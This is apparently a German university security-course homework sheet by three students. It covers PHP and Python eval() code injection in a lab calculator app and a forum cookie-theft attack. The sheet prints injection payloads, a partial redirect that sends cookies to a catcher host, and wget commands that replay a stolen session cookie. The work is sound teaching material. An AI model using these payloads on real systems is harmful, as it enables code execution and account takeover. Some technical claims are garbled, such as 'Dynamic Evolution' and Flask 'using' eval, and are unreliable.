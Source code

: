 ```yaml
---
title: "Reaktive Sicherheit"
subtitle: "Übungsblatt 6"
author: 
	- Balduin Binder [s6babind@uni-bonn.de]
	- Charlotte Mädler [s6chmaed@uni-bonn.de]
	- Bünyamin Sarikaya [s6busari@uni-bonn.de]
lang: de
output: pdf_file
---
```


# Aufgabe 1
  (1)Dynamic Evolution Verwundbarkeit: der Angreifer kontrolliert eine Zeichenkette, die als PHP-Script-Code
interpretiert wird.

  In PHP gibt es die Funktion eval(), die benutzt wird um ein String zu evaluieren. Ein Angreifer würde jetzt teile oder den ganzen String maniuplieren um den String zu kontrollieren. Zum Beispiel:
  
```
  <?php
  $name='Charly';
  $string=$_GET['arg'];
  eval("\$name=\"$string\";");
  ?>
```
  
  Wenn der Angreifer hier als Input für String 'noname; system("Is")' gibt, wird in der eval() Funktion Is aufgerufen und eine Liste der Dateien im Directory wird offengelegt. Unter umständen kann der Angreifer sensible Dateien sehen, löschen oder updaten.
  
  (2) Das Schutzziel der Verfügbarkeit (Möchliches Löschen von Daten), der Vertraulichkeit (Sichten von sensiblen Daten) und der Integrität (Datenmanipulation) werden verletzt. Man könnte auch sagen, dass indirekt die Zurechenbarkeit verletzt wird (Aktion vom Opfer oder vom Angreifer ausgeführt?). 
  
  (3) Flask ist ein lightweight web application framework (eine Software, die für die Entwicklung von dynamischen Webseiten, Webanwendungen oder Webservices ausgelegt ist). Dieses Programm soll eine Rechenoperation ausführen bzw. Ausgeben, die vom Nutzer eingegeben wird (also ähnlich wie ein Taschenrechner). Der User gibt also seine Rechnung ein (in Python), drückt Submit und es wird ihm das Ergbnis ausgerechnet. 
  
  (4) In Flask gibt es die Dynamic Evolution Verwundbarkeit, da Flask unteranderem die Funktion eval() nutzt. 
  
 (5)Eval() wird benutzt um einen einzigen, dynamisch genereierten Python-Ausdruck zu evaluieren. Exec wird zum ausführen dynamisch generirten Python codes genutzt.
  
Eval kann also nur ein einziges Argument entgegen nehmen, exec ein code block (loops, class, def, etc.) Eval gibt einen Wert zurück, exec gibt immer None zurück. In python 3 ist exec eine Funktion, die keine Auswirkung auf den compilierten Bytecode der Funktion hat wo exec angewendet wird. 
  
  (6)_ import _('os').system('gedit')
  
  
  # Aufgabe 3
  
  GET('data') kann als erweiterung zum übergeben von Daten genutzt werden. Hier bei werden diese in $cookie gespeichert:
  
  ```
  if(isset($_GET['data']))$cookie=$_GET['data'] 
  ```
  
  (Falls Cookie gesetzt, Daten übermitteln)
  
  Ein im Forum angemeldeter Nutzer hat die Möglichkeit in Beiträgen Code einzubetten, um Beispielsweise als angreifer zu versuchen die Einlogdaten anderer Nutzer rauszufinden.
  Hierfür müsste das login-cookie ausgelesen werden und als GET übermittelt werden (Redirect an Catcher-Virutal Host), 
  (Irgendwas mit location.replace("http://192.168.178.63/catcher?data= ????)
  
  um dann schließlich mit wget ausgelesen/verwendet werden:
  
  ```
  wget --no-cookies --header "Cookie: sid=..." http://192.168.178.104/forum
  ```
  Um ein Beitrag zu schreiben:
  ```
  wget --no-cookies --header "Cookie: sid=..." --post- data "Text=Nachricht" http://192.168.178.104/forum/post.php
  ```
  
